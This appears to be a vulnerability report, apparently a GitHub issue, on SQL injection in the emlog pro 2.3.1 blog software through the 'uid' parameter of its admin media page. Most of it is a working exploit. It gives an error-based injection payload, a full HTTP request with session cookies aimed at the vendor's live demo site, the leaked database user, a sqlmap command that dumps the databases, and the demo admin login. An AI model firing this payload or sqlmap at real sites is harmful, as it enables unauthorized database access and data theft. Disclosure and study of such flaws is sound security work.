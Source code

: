 ## github issue url :
https://github.com/emlog/emlog/issues/293
## Vulnerability Title: SQL injection vulnerabilities in emlog

- #### Vulnerability Type: SQL Injection
- #### Vendor Homepage: https://www.emlog.net/
- #### Software Link: https://github.com/emlog/emlog
- #### Affected Software/Version: pro2.3.1

## Application Demo and credentials

- URL   
https://demo.emlog.cn/admin/account.php?action=signin   
username:emlog   
password:emlogpro   

## Technical Details & Exploit:
- parameter   
  uid   
- payload   
  `uid=1+AND+GTID_SUBSET(CONCAT(0x7E,(SELECT+(ELT(2908=2908,user()))),0x7E),2908)`
- Request message：   
```
GET /admin/media.php?uid=1+AND+GTID_SUBSET(CONCAT(0x7E,(SELECT+(ELT(2908=2908,user()))),0x7E),2908) HTTP/2
Host: demo.emlog.cn
Cookie: PHPSESSID=olin640b9imq8if8g6hrs0thq0; EM_AUTHCOOKIE_hua9xrHVX4Cn8wWSnuX5vdPuy8NNnCeu=emlog%7C1743216985%7Cc724c92f1e862be91d66b3ca6475682d
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://demo.emlog.cn/admin/media.php?active_del=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
- Server response   
  we got the current_user :
  `demo_emlog_cn@localhost`
<img width="1035" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/30382685-36cf-4ada-9ae4-bb1eb4f70c2f">
  We can also directly use the sqlmap tool to obtain database data：      
  `python3 sqlmap.py -r 1.txt --dbs --batch`    
  <img width="993" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/ee892f8e-6079-4d4c-95f9-58d15ce3f513">
- location on web application   
  <img width="1282" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/057a206e-e732-4a3c-9d5f-a3cfea2dd2f2">
  